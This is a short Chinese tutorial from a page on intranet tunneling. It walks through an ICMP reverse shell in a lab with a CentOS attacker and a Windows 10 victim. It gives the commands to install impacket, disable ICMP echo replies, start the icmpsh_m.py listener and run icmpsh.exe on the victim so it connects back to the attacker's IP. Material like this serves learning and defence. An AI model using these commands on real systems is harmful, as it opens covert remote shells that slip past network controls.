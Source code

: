 ```
反弹shell 
ICMP做隧道一般有这么几种，一种是反弹shell 的形式。
实验环境
攻击机centos7，192.168.15.50
被攻击机器win10,192.168.15.1
```

```
1.下载工具，然后执行安装依赖的命名
pip install impacket
pip2 install impacket==0.9.17
```

![image-20241022231858801](内网隧道代理技术/image-20241022231858801.png)		

```
2.执行禁用icmp回复
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

![image-20241022233113442](内网隧道代理技术/image-20241022233113442.png)		

```
3.上传py脚本，开启监听命令
格式：python icmpsh_m.py 攻击者IP 受害者IP
python icmpsh_m.py 192.168.15.50 192.168.15.1
```

```
4.使用工具，在受害者机器执行反弹命令
icmpsh.exe -t 攻击者IP
icmpsh.exe -t 192.168.15.50
```
